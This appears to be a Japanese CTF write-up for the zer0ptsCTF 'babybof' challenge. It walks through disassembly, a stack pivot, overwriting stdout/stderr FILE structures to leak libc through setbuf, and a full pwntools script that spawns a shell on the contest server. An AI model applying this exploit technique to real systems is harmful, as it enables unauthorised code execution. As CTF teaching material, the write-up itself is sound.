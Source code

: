 ```yaml
---
layout: page
title: "[zer0ptsCTF / babybof] Writeup"
date: 2020-03-09 00:00:00 -0000
categories: pwn 
---
```


自分の解法が想定解と思ってたら違ったようなので念のため。  
100%刺さって、そんなに長くない。

### 問題概要
- no pie, no canary, full relroのバイナリで、setbufやった後はbssにreadする。
- mainの関数はバッファが小さめに取られていて、自明なbofがあるが、出力系が一切ない。
- 最後にexitする。 
- バイナリにはropガジェットが与えられている。セットできるのはrdi, rsi, rbp。あとleaveが使える。
- とにかく問題が小さい。全部はれるレベル

```c
entry:
        00400430 e8 0a 00        CALL       setup  
                 00 00
        00400435 e8 44 00        CALL       main     
                 00 00
        0040043a e8 e1 ff        CALL       exit  
                 ff ff
```
```c
setup: 
        0040043f 55              PUSH       RBP
        00400440 48 89 e5        MOV        RBP,RSP
        00400443 48 31 f6        XOR        RSI,RSI
        00400446 48 b8 30        MOV        RAX,stdin
                 10 60 00 
                 00 00 00 00
        00400450 48 8b 38        MOV        RDI,qword ptr [RAX]=>stdin
        00400453 e8 a8 ff        CALL       setbuf
                 ff ff
        00400458 48 b8 20        MOV        RAX,stdout
                 10 60 00 
                 00 00 00 00
        00400462 48 8b 38        MOV        RDI,qword ptr [RAX]=>stdout
        00400465 e8 96 ff        CALL       setbuf
                 ff ff
        0040046a 48 b8 40        MOV        RAX,stderr
                 10 60 00 
                 00 00 00 00
        00400474 48 8b 38        MOV        RDI,qword ptr [RAX]=>stderr
        00400477 e8 84 ff        CALL       setbuf
                 ff ff
        0040047c 5d              POP        RBP
        0040047d c3              RET
```
```c
main:
        0040047e 55              PUSH       RBP
        0040047f 48 89 e5        MOV        RBP,RSP
        00400482 48 83 ec 20     SUB        RSP,0x20
        00400486 ba 00 02        MOV        EDX,0x200
                 00 00
        0040048b 48 8d 75 e0     LEA        RSI=>local_28,[RBP + -0x20] <----- !!!
        0040048f bf 00 00        MOV        EDI,0x0
                 00 00
        00400494 e8 77 ff        CALL       read
                 ff ff
        00400499 c9              LEAVE
        0040049a c3              RET
```
### 解法
- 出力がないので、stdoutのwriteポインタを触れるのは必須。ただし書き換えただけではリークせず、出力系が動かないとだめ。今回はsetbufを走らせたときにリークするのがポイント。また`rbp`に適当な値をセットした後に`40048b`に飛ぶと、次のpivot先を編集しながら進める。
- `rbp`にstderrのアドレスを保持した状態でleaveに入っていれば良い。逆算すると、`rbp`に`601040`が無いといけない。
- またstderrを書き換えた後、戻ってくるアドレスを保持したところを準備しておく必要がある。
- 具体的な手順は以下の通り。
    1. `601068`を`rbp`にセットして、`40048b`に飛ぶ。
    2. mainのアドレスをbssに格納し、`601040`を`rbp`にセットして、`leave`ガジェットに飛ぶ
    3. stderrのsetbufが走るように値を設定し、関数ポインタを2.で設定したmainのアドレスに向けて、entryに飛ぶ
    4. entry -> setup -> setbuf(stdout, 0)でリーク -> setbuf(stderr, 0)でvtableからmainへ
    5. system("/bin/sh")（勝ち）

2.の後のbss最後の状態
```c
0x601020 <stdout@@GLIBC_2.2.5>:	0x00007f21097b8760	0x0000000000000000
0x601030 <stdin@@GLIBC_2.2.5>:	0x00007f21097b7a00	0x0000000000000000
0x601040 <stderr@@GLIBC_2.2.5>:	0x00007f21097b8680	0x0000000000400499
0x601050:	0x0000000000000001	0x0000000000000002
0x601060:	0x0000000000000003	0x0000000000000004
0x601070:	0x000000000040047c	0x0000000000601040
0x601080:	0x0000000000400499	0x000000000040047e
0x601090:	0x0000000000000000	0x0000000000000000
0x6010a0:	0x0000000000000000	0x0000000000000000
0x6010b0:	0x0000000000000000	0x0000000000000000
0x6010c0:	0x0000000000000000	0x0000000000000000

```

3.の後のstderrはこんな感じ
```c
0x7f21097b8680 <_IO_2_1_stderr_>:	0x0000000000000000	0x0000000000400430
0x7f21097b8690 <_IO_2_1_stderr_+16>:	0x0000000000000000	0x0000000000000000
0x7f21097b86a0 <_IO_2_1_stderr_+32>:	0x0000000000000000	0x0000000000000000
0x7f21097b86b0 <_IO_2_1_stderr_+48>:	0x0000000000000000	0x0000000000000000
0x7f21097b86c0 <_IO_2_1_stderr_+64>:	0x0000000000000000	0x0000000000000000
0x7f21097b86d0 <_IO_2_1_stderr_+80>:	0x0000000000000000	0x0000000000000000
0x7f21097b86e0 <_IO_2_1_stderr_+96>:	0x0000000000000000	0x0000000000000000
0x7f21097b86f0 <_IO_2_1_stderr_+112>:	0x0000000000000000	0x0000000000000000
0x7f21097b8700 <_IO_2_1_stderr_+128>:	0x0000000000000000	0x00000000006010c0
0x7f21097b8710 <_IO_2_1_stderr_+144>:	0x0000000000000001	0x0000000000000002
0x7f21097b8720 <_IO_2_1_stderr_+160>:	0x0000000000000003	0x0000000000000004
0x7f21097b8730 <_IO_2_1_stderr_+176>:	0x0000000000000005	0x0000000000000006
0x7f21097b8740 <_IO_2_1_stderr_+192>:	0x0000000000000007	0x0000000000000008
0x7f21097b8750 <_IO_2_1_stderr_+208>:	0x0000000000000009	0x0000000000601030
0x7f21097b8760 <_IO_2_1_stdout_>:	0x00000000fbad1887	0x0000000000000000
```
完成したスクリプト

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

TARGET = './chall'
HOST = '13.231.207.73'
PORT = 9002

elf = ELF(TARGET)
def start():
    if not args.R:
        print "local"
        return process(TARGET)
        # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
        # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
    else:
        print "remote"
        return remote(HOST, PORT)

def get_base_address(proc):
    return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    script += "set $_base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print "\t-> %s: 0x%x" % (val, eval(val))

r = start()
if args.D:
    debug(r, [0x48b, 0x49a])

rbp = 0x40047c
rdi = 0x40049c
rsi = 0x40049e
leave = 0x400499
intercept = 0x40048b
main = 0x40047e
setup = 0x400430

payload = ''
payload += 'A'*40
payload += flat(rbp, 0x601048+0x20, intercept)
r.send(payload.ljust(0x200, '\x00'))
pause()

payload = ''
payload += flat(intercept, 1, 2, 3, 4, rbp, 0x601040, leave, main)
r.send(payload.ljust(0x200, '\x00'))
pause()

payload = ''
payload += '\x00' * 0x28
payload += flat(setup)
payload = payload.ljust(0x88+0x20, '\x00')
payload += flat(0x6010c0)
payload += flat(1, 2, 3, 4, 5, 6, 7, 8, 9, 0x601088-0x58)
payload += flat(0xfbad1887, 0, 0, 0) + '\x00'
r.send(payload)
leak = u64(r.recv(0x80)[0x40:0x48])
dbg("leak")
base = leak -0x3c5600
system = base + 0x45390
binsh = base + 0x18cd57

payload = ''
payload += '\x00' * 0x28
payload += flat(rdi, binsh, system)
r.sendline(payload)

r.interactive()
r.close()
```

#### 感想
- stdoutいじってリークしないときは絶望したし、stderrで落ちるときも絶望したし、ropでsetbuf組むのもアドレス知らんので詰んでたし、だいぶ苦しみながら作ってた。
- setbufでリークするのはこれからも使えそうな気がする小ネタ。
- これだけ小さいプログラムで、これだけたくさん考えられて楽しいのは本当にすごい。面白かった。
